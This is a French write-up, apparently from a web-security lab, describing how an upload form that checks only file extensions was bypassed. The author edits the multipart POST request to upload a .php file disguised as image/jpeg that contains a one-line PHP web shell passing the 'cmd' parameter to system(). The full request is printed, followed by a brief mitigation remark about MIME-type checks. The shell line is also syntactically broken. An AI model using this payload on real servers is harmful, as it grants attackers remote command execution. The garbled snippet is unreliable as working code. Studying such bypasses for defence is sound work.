 <p>Sur la page ?page=upload# on peut uploader un fichier. Une vérification est faite sur l'extension du fichier, mais pas sur son mimeType ou son contenu. On peut envoyer un fichier avec du code tant qu'il a une extension en .jpg<br>
J'ai ouvert le moniteur de réseau du navigateur, et j'ai uploadé un fichier jpeg valide. J'ai inspecté la requête post, et je l'ai modifiée. J'ai simplement changé l'extension du fichier dans le corps de la requête pour qu'il soit en php, et j'ai remplacé le contenu binaire de l'image pas le corps de la requête : <br>
<br>
-----------------------------388438716520295718423503181162<br>
Content-Disposition: form-data; name="MAX_FILE_SIZE"<br>
<br>
100000<br>
-----------------------------388438716520295718423503181162<br>
Content-Disposition: form-data; name="uploaded"; filename="JPEG_example_flower.php"<br>
Content-Type: image/jpeg<br>
<br>
<?php system($_GET(['cmd']); ?><br>
-----------------------------388438716520295718423503181162<br>
Content-Disposition: form-data; name="Upload"<br>
<br>
Upload<br>
-----------------------------388438716520295718423503181162--<br>
<br>
Le fichier que j'ai utilisé comme base est à côté de ce fichier j'ai utilisé cette <a href="https://www.youtube.com/watch?v=YAFVGQ-lBoM">vidéo</a> pour faire mon attaque pour mitiger cette attaque, on pourrait faire au moins une vérification de mimeType. On pourrait aussi ne pas exécuter ce qui devrait être une image, mais je ne sais pas comment faire. Apparement, il n'y a pas de consensus pour mitiger ce genre de faille. 
</p>
